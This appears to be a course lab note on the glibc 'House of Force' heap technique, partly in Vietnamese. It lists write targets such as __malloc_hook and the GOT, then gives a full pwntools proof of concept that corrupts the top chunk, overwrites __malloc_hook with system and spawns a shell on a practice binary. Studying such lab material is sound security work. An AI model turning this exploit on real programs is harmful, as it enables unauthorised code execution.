


# Scenery

Khi đã có được arbitrary read/write, có thể cân nhắc các target:
- GOT (nếu `partial relro`)
- hook (`__malloc_hook`,`__free_hook`...) (vẫn sử dụng được với `glibc < 2.29`)
- GOT libc, fini_array, exit_func...
# POC

This script come along with binary file in course.

Our goal is overwrite `__malloc_hook` with `system`  then when the `malloc` is called, it will execute `system` first.

```
from pwn import *

exe = ELF("./house_of_force")
libc = ELF(exe.runpath + b"/libc.so.6")
context.binary = exe

debug = lambda : gdb.attach(p, gdbscript = script)

def malloc(size, data):
	p.sendafter(b"> ", b"1")
	p.sendafter(b"size: ", f"{size}".encode())
	if(data != b""):
		p.sendafter(b"data: ", data)

'''
read_num in main
'''

script = '''
b *0x000000000040093E
'''

p = process("./house_of_force")

# leak libc and heap
p.recvuntil(b"puts() @ ")
libc_base = int(p.recvline(), 16) - libc.symbols['puts']
p.recvuntil(b"heap @ ")
top_chunk = int(p.recvline(), 16) + 0x20

#debug()
# overwrite top chunk with -1
malloc(0x18, b"A" * 0x18 + p64(0xffffffffffffffff))

# malloc large size to fill the gap
__malloc_hook = libc_base + libc.symbols['__malloc_hook']
bridge = ((__malloc_hook) - top_chunk - 8) - 0x10
malloc(bridge, b"A")

# malloc to target, overwrite with system
system = libc_base + libc.symbols['system']
malloc(0x18, p64(system))

# trigger
binsh = libc_base + list(libc.search(b"/bin/sh\x00"))[0]
malloc(binsh, b"")

p.interactive()
```

# Idea

The same way with already said in `arbitrary_read_write`. But this time we overwrite `__malloc_hook` with `system`.



Then we pass the size equal to value of `"/bin/sh"` address, next time `malloc(size)`, program will call `system("/bin/sh")`.

